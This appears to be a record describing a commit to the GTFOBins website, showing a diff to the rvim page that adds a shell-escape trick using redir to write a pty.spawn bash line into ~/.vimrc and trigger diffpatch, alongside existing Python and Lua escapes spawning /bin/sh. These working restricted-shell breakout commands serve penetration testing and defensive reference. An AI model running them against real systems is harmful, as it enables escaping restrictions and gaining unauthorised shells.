

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
adds rvim redir and diffpatch trick

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -1,6 +1,8 @@
 ---
 functions:
   shell:
+    - description: This requires that `rvim` version is `< 9.0.1440`.
+      code: rvim -c ':redir! > ~/.vimrc | echo "!python3 -c \'import pty; pty.spawn(\"/bin/bash\")\'" | redir END | set shell=/usr/bin/vim | diffpatch'
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
     - description: This requires that `rvim` is compiled with Lua support.
```
